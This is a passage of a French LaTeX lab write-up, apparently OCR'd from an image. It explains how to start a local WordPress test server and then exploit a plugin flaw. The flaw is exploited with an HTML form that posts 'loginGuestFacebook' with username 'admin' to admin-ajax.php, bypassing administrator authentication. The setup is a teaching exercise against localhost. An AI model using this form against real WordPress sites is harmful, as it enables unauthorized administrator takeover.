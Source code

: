 \documentclass[a4,12pt]{article}
\begin{document}
\texttt{\# service apache2 start}

\texttt{\# service mysql start}\\

Votre serveur est alors lancé. Vous pouvez y accéder en donnant l'adresse indiquée plus bas à un navigateur web sur votre machine h\^ote. Si tout s'est bien passé, vous \^etes alors sur la page d'accueil du site WordPress installé par nos soin.

Adresse du site : \texttt{http://localhost:8080/wordpress}

Un aperçu du site est donné figure \ref{apercu}

\begin{figure}[h]
  \label{apercu}
  \center
  \includegraphics[width=400px]{images/apercu.png}
  \caption{Aperçu du site WordPress}
\end{figure}

\subsection{Exploitation de la faille}

Dans le site utilisé pour l'expérimentation, le nom d'administrateur est \texttt{admin}.\\

On utilise donc le formulaire présenté figure \ref{code}.

\begin{figure}
\label{code}
\begin{lstlisting}
  <form action="http://localhost:8080/wordpress/wp-admin/admin-ajax.php"
          method="post">
      Username: <input type="text" name="username" value="admin">
      <input type="hidden" name="email" value="sth">
      <input type="hidden" name="action" value="loginGuestFacebook">
      <input type="submit" value="Login">
  </form>
\end{lstlisting}
\caption{Formulaire permettant d'exploiter la faille}
\end{figure}
\end{document}
